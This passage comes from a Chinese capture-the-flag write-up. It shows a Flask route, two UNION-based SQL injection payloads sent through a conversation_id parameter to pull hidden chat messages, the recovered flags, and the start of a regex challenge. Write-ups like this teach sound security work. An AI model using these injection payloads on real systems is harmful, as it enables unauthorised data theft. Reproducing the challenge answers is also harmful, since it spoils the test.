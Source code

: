 ```plain
/view?conversation_id=' union select title, contents from messages where contents like '%flag%
```

<a name="reverse-solving"></a>

我们看到了一条聊天记录。滚动条翻到最底下，可以找到一个 flag。事实证明这是第二问的 flag。那么第一问的在哪呢？再看一下代码，

```python
@app.route("/list")
def list():
    results = execute_query("select id, title from messages where shown = true", fetch_all=True)
    messages = [Message(m[0], m[1], None) for m in results]
    return render_template("list.html", messages=messages)
```

看起来消息列表只会列出 `shown = true` 的聊天记录，而我们刚刚完成的第二问名字叫“窥探未知”，所以可能是找到了一个隐藏聊天记录。接下来我们把 `shown = true` 加到注入的查询条件中，应该就能得到第一个 flag。

```plain
/view?conversation_id=' union select title, contents from messages where shown = true and contents like '%flag%
```

确实，也在页面最底下。

### Flags

```plain
flag{zU1_xiA0_de_11m_Pa0lule!!!_495ea147d1}
flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_0648f44712}
```

最小的 LLM 跑路了！！！\
~~江南皮革厂倒闭了~~（bushi

Enjoy your sql & I would 下周回国\
应该指的是 PaoluGPT 下周恢复（确信

![paolule](_assets/image-3.png)

## 12. ~~强大的正则表达式~~

_完成 1/3_

「正则表达式可以用来计算取模和 CRC 校验……」

注：题目会随机均匀生成 0 到 2^64 的整数，三问的要求分别如下：

1. 判断十进制数是否被 16 整除。
2. 判断二进制数是否被 13 整除。
3. 判断十进制数的 gsm3 crc 是否为 0。

只能使用 `0123456789()|*` 字符，长度上限 `1000000`。匹配使用 `fullmatch` 模式。
